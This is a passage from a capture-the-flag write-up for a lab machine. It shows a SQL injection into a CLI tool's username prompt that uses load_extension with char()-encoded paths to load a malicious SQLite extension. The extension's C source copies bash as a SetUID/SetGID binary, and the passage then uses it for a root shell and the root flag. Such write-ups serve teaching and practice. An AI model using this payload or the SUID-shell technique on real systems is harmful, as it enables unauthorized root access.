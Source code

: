 ```

Select option: 5
Enter username to activate account: "+load_extension(char(46,47,112));-- -
Activating account for user '"+load_extension(char(46,47,112))---'...
uid=0(root) gid=0(root) groups=0(root),1003(tom)

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option:

```

It ran `id`!

#### Shell

I’ll update my `poc.c` to make a copy of `bash` and set it as SetUID/SedGID (I like this better than just changing `/bin/bash` as to not accidentally spoil for other players).

```

#include <stdlib.h>
void sqlite3_extension_init() {
    system("/bin/cp /bin/bash /tmp/0xdf");
    system("/bin/chmod 6777 /tmp/0xdf");
}

```

I’ll compile that over `p.so` and run the exploit again. Now there’s a SetUID/SetGID binary at `/tmp/0xdf`:

```

tom@drive:/dev/shm$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1183448 Feb 14 22:25 /tmp/0xdf

```

Running with `-p` (to not drop privs) gives a root shell and the flag:

```

tom@drive:/dev/shm$ /tmp/0xdf -p
0xdf-5.0# id
uid=1003(tom) gid=1003(tom) euid=0(root) egid=0(root) groups=0(root),1003(tom)
0xdf-5.0# cat /root/root.txt
641e7a5b************************

```
